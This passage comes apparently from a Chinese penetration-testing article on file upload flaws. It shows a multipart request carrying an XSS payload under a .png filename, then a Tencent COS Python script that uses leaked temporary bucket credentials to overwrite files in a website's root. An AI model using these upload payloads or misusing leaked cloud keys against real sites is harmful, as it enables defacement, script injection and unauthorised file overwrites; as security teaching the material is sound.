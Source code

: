 ```
Content-Disposition: form-data; name="file"; filename="12.png"
Content-Type: text/html
<script>alert(1)</script>
```  
#### 上传泄露bucket桶覆盖文件  
  
  
[STStoken覆盖文件](https://mp.weixin.qq.com/s?__biz=Mzg3MTc0MDYwMg==&mid=2247483855&idx=1&sn=cc41111f7e8a67018432195f6f978ef8&scene=21#wechat_redirect)  
  
  
  
导入或者上传的功能点,也是上传过后响应包返回了如下数据,如不知道桶名只能源码慢慢审查,判断是哪个云厂商然后找平台文档找脚本进行应用填入对应的值,还是需要一个包一个包的找泄露  
  
```
Bucket 桶名
tmp_secret_key
tmp_tokene
-------
secret_id=
secret_key=
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5AVLAtZbKXofiaCDMNP4icrqRvHibNB5TzllUtkKXGjUdP3SvfK4U8k4ibA/640?wx_fmt=png&from=appmsg "")  
  
  
根据文档脚本进行上传文件操作,上传的文件是在根目录下,按理  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5cT8gKicIsLTdxtGbMB9zzosGDWDJuoAL3RLQqibqibI60rVJOoa2YbyQg/640?wx_fmt=png&from=appmsg "")  
  
  
通过脚本填入对应的值,任意上传文件至网站根目录,如知晓 网站其他路径上传即可实现覆盖操作.  
body  
为上传的内容  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5vh32Y7QzCVpgf3lUkxr2yjbibxuANpeocGa5ovjdnrMpoibMbQcm9Ricg/640?wx_fmt=png&from=appmsg "")  
  
```
// 上传脚本执行需要Py为3.0版本下
from qcloud_cos import CosConfig
from qcloud_cos import CosS3Client
import sys
import logging
# 配置日志输出
logging.basicConfig(level=logging.INFO, stream=sys.stdout)
# 填入你的密钥、ID、区域等信息
secrets_key = 'your_secret_key'
secrets_id = 'your_secret_id'
region = 'your_region'
token = ''scheme = 'https'
# 配置CosConfig
config = CosConfig(Region=region, SecretId=secrets_id, SecretKey=secrets_key, Token=token, Scheme=scheme)
# 创建CosS3Client
client = CosS3Client(config)
# 上传文件到指定存储桶
response = client.put_object(
    Bucket='your_bucket_name',  # 存储桶名称
    Key='a.txt',  # 上传文件名称
    Body='Hello, World!'  # 文件内容
)
```  
### 上传Excle文件XXE  
  